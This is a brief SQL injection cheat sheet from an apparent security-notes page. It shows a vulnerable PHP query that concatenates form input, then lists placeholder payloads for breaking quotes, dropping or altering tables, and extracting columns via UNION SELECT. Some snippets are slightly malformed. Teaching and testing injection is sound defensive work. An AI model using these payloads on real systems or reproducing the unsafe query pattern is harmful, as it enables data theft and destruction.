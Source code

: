 # SQL Injection
[HOME](/index.html) / [Web](/Web)

## The basics

How an example of unsecure sql statement looks like:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>$_POST["username"]</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

To break the statement:

<pre>
$SQL = "SELECT * FROM <i>{tablename}</i> WHERE <i>{username}</i> = ' + <b><i>1' OR 1+1--</i></b> + ' AND ' + <b><i>$_POST['password']</i></b>'";
</pre>

<br>

### Simple SQL injection test
```SQL
'
1' OR 1+1--
\'
```
### Where table name is known
```SQL
1'; DROP TABLE {tablename} --
```
### Where column name is known
```SQL
1'; ALTER TABLE {tablename} ALTER COLUMN {columnname} {datatype} --
1' UNION SELECT {columnname} FROM {tablename};--
1' UNION ALL SELECT {columnname} FROM {tablename};--
```
